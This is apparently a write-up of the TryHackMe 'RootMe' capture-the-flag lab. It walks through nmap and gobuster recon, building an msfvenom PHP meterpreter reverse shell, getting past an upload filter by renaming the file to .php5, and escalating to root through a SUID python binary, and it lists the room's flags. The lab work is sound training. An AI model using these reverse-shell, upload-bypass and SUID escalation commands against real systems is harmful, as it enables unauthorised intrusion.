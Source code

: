 # Task 1: Deploy the machine
# Task 2: Reconnaissance
### Scan the machine, how many ports are open?
_nmap -Pn -sV -vv <ip_addr>_
**2**
### What version of Apache is running?
**2.4.29**
### What service is running on port 22?
**SSH**
###  Find directories on the web server using the GoBuster tool.
_gobuster dir -u <ip_addr> -w /usr/share/wordlists/dirb/common.txt_
### What is the hidden directory?
**/panel/**
# Task 3: Getting a shell
#### Hint: Search for "file upload bypass" and "PHP reverse shell"
### First: create a PHP reverse shell. I used msfvenom.
_msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php_

Since I used a meterpreter reverse shell, I had to open a meterpreter listener.
_msfconsole_
_use exploit/multi/handler_
_set payload php/meterpreter_reverse_tcp_
_set LHOST <my_ip_addr>_
_set LPORT<a_port_to_listen_on>_ _(I used the default: port 4444)_
_exploit_
I left the listener there.

### Second: File upload bypass
Opening "_http://<ip_addr>/panel/_", an upload page appears. I tried uploading shell.php file that I just made but the page returned something like "PHP upload is not allowed" in Spanish. 
So I searched for "PHP file upload bypass". I found out that it is possible to upload an execute the .php file by renaming it to another php-ish extension. I chose shell.php5. After that uploading is simple.

### Third: Executing the malicious PHP file
I had a hard time with this as I had no clue how to execute the file once it was uploaded.
Turns out I can use cURL to open the file
_curl http://<ip_addr>/uploads/shell.php5_
With this, my listener got the signal and there I had a meterpreter shell.
The file I had to find named "user.txt". Not much more info there, and meterpreter doesn't have a "find" or "locate" command. So I dropped into the system shell.
_shell_
_find / -type -f -name user.txt 2>/dev/null_
- -type f:  Tell 'find' to look exclusively for files
- -name user.txt: Specify the filename
- 2>/dev/null: Error messages do not show up as part of the result.
_I took all this from a [writeup](https://beginninghacking.net/2020/09/09/try-hack-me-rootme/) by lightkunyagami on THM_

Now we get the flag
_cat /var/www/user.txt_
**THM{y0u_g0t_a_sh3ll}**
# Task 4 Privilege escalation
### Search for files with SUID permission, which file is weird?
SUID (**S**et owner **U**ser **ID** up on execution) is a special file permission. It temporary gives the user executing the file the file's owner's permissions. In another word, the user executing the file will have the UID and GID of the file's owner (English is hard).

_find / type -f -user root -perm -u=s 2>/dev/null_

- -u=s: Owner has the setuid or SUID bit
	
For some reason, /usr/bin/python is the weird file.
**/usr/bin/python**

### Find a form to escalate your privileges.
#### Hint: Search for gtfobins
Searched for gtfobins and I got [gtfobins.github.io](https://gtfobins.github.io/). Since the file with SUID permission was python:
_python -c 'import os; os.execl("/bin/sh", "sh", "-p")_
_whoami_
I got root as the result.
_cd /root_
_cat root.txt_
**THM{pr1v1l3g3_3sc4l4t10n}**

# **And we're done**